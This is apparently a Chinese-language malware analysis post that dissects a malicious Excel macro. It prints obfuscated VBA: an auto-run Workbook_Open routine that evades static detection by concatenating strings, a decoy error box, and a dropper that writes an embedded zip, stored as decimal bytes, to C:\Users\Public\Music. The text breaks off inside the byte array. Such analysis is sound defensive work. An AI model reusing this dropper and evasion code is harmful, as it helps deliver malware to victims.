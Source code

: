 该宏函数采用拼接路径的方法躲避静态查杀 ，旨在确认 C:\\Users\\Public\\Music\\comd.zip 是否已被创建，如果不是则调用 gkhaL6Ujf7T8TwThtCGkfindUi 进行下一步操作，如果是则弹框显示说明性文字。

```vbscript
Sub Workbook_Open()
Dim bJeKNBThzjfhMnMDvxNzGbRTHYhCxnrjdAuxamFvwRqXjC As String
Dim KQNjfUBrNzrnrChNhSSVJKEWTnyZqAfCeBAnGpbaUewuyv As String

    bJeKNBThzjfhMnMDvxNzGbRTHYhCxnrjdAuxamFvwRqXjC = "C:\Users\" + "Publi" + "c\Musi" + "c\co" + "md.zip"
    KQNjfUBrNzrnrChNhSSVJKEWTnyZqAfCeBAnGpbaUewuyv = Dir(bJeKNBThzjfhMnMDvxNzGbRTHYhCxnrjdAuxamFvwRqXjC, vbDirectory)

    If KQNjfUBrNzrnrChNhSSVJKEWTnyZqAfCeBAnGpbaUewuyv = "" Then
        Call gkhaL6Ujf7T8TwThtCGkfindUi
    Else
        MsgBox "Excel cannot complete this task with availiable resources.Choose less data or close other applications."

    End If
End Sub
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-84d6eb5223622b32877fcb583e1dadcfa7f9ab5c.png)

#### gkhaL6Ujf7T8TwThtCGkfindUi 函数分析：

恶意代码作者把一整个 zip 文件的字节码拆分成多个长串的 10 进制形式写入到变量中，每个字节以  **连接，下面长串变量中的 80**  75 \*\* 3 都是 zip 格式文件的字节码形式，只不过是 10 进制形式。

该函数通过把这些 10 进制形式的字节码连接起来并以 \*\* 作为分隔符，得到一个包含整个 zip 文件字节码的大数组，最后通过循环把字节码写入一个创建的文件中。被指定的文件路径是拼接的，为 C:\\Users\\Public\\Music\\comd.zip。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-063ff9bc6e07b874de1a3b332994ee8629057301.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-dcab52f0684ab242e3c672ee3b8e67823c33be7c.png)

```vbscript
Sub gkhaL6Ujf7T8TwThtCGkfindUi()
UmXbqkZjQEf3zX2dNgkhaL6Ujf7T8TwThtCGkfindUi35rqBiC = "C:\U" + "sers\" + "Publ" + "ic\M" + "usic\" + "comd.zip"
Dim lgbtqpKM39, lgbt5gwIdE, lgbtchFy25, lgbt7nkEqi, lgbt3n5kSb, lgbtmGiAAY, lgbtjWKMbr, lgbt2uyJ9e, lgbt9yb7p1, lgbtvN4jB1, lgbtEPaxGR, lgbtq1K5PE, lgbtildg1X, lgbtZkhmJB, lgbta2gYZb, lgbte5KLMf, lgbtzJKofS, lgbtr4gygt, lgbtZWyVDY, lgbtkNnoUJ, lgbtqfKOYg, lgbtCtokOf, lgbttYaFEA, lgbtZ63Qyb, lgbtYCGqMG, lgbtZGNM0X, lgbtSBr7aI, lgbtJmWMfx, lgbt4K5b4H, lgbtiPwpPN, lgbtWdtpAA, lgbtzHbSL8 As String

lgbtqpKM39 = (" 80**75**3**4**20**0**0**0**8**0**188**24**110**85**249**118**118**174**75**26**0**0**216**89**0**0**8**0**0**0**99**111**109**100**46**112**100**102**236**91**15**120**83**85**150**191**121**77**33**180**33**137**82**164**106**145**160**1**170**98**109**87**220**65**7**102**3**109**1**181**96**105**249**167**20**218**144**188**180**129**52**13**201**75**129**25**198**41**155**22**205**198**106**71**153**221**249**230**83**151**42**174**142**127**199**17**21**148**209**218**214**22**29**29**89**134**245**115**133**25**217**85**119**131**237**206**199**168**195**34**84**222**254**206**125**247**165**105**41**214**253**102**157**162**203**229**59**57**247**158**123**206**185**191**123**238**121**247**222**151**148**133**183**182**176**52**198**152**17**164**170**140**237**98**90**113**178**225**75**3**200**50**233**69**11**219**57**230**173**201**187**12**37**111**77**94**82**227**11**219**131**161**186**234**144**171**214**238**118**5**2**117**138**125**141**108**15**69**2**118**95**192")

```